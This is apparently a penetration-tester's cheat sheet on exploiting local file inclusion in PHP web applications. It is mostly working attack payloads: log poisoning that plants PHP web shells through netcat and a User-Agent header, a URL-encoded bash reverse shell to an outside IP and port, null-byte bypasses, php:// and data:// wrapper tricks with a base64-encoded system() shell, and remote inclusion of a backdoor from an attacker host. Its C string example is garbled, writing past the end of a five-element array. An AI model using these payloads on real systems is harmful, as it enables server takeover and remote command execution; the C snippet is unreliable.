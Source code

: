 ### Contaminating Log Files to LFI
```
1.
nc -nv 10.11.0.22 80
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig

2. User-Agent: Mozilla/5.0 <?php echo system($_GET['cmd']); ?>
http://10.11.0.22/menu.php?file=../../../../../../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
```

### Null byte to mark the end of file
```
To write a string in PHP, we simply write
$string = ‘hello’;
Unfortunately, C does not have a string data type. To write a string in C/C++ we must use an array.
Char string[5];
string[0]=’h’;
string[1]=’e’;
string[2]=’l’;
string[3]=’l’;
string[4]=’o’;
string[5]=’\0′;
http://www.bostonwebgroup.com/script.php?file=shell.php%00.dat
```

### PHP wrappers
>When web application firewalls or other security mechanisms are in place, they may filter strings like "system" or other PHP code elements. In such a scenario, we can try to use the data:// wrapper with base64-encoded data. We'll first encode the PHP snippet into base64, then use curl to embed and execute it via the data:// wrapper.
```
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"

echo -n '<?php echo system($_GET["cmd"]);?>' | base64 (PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==)

curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"

curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"
```
>we need to be aware that the data:// wrapper will not work in a default PHP installation. To exploit it, the allow_url_include7 setting needs to be enabled
